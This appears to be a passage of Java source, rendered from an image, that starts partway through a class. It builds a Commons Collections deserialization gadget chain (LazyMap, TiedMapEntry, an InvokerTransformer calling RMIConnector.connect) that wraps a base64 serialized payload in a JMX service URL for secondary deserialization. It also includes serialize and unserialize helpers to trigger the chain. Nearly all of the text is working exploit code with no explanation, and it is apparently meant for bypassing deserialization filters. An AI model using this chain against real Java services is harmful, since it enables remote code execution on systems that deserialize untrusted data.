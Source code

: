 ```plain
    }

    public static void unserialize(byte[] ser) throws Exception {
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(ser));
        objectInputStream.readObject();
        System.out.println("Unserialize Ok!");
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
    public static String serialize2Base64(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        String s = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        return s;
    }
    public static byte[] serialize(Object object) throws Exception {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(object);
        System.out.println("Serialize Ok!");
        String s = Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
        System.out.println(s);
        System.out.println(s.length());
        return byteArrayOutputStream.toByteArray();
    }
    public static void run(String base64) throws Exception{
        JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
        setFieldValue(jmxServiceURL, "urlPath", "/stub/"+base64);
        RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
        InvokerTransformer connect = new InvokerTransformer("connect", null, null);
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer(1));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,rmiConnector);
        HashMap<Object, Object> hashMap1 = new HashMap<>();
        hashMap1.put(tiedMapEntry, "2");
        lazyMap.remove(rmiConnector);
        setFieldValue(lazyMap,"factory",connect);
        byte[] serialize = serialize(hashMap1);
        unserialize(serialize);
    }

}
```
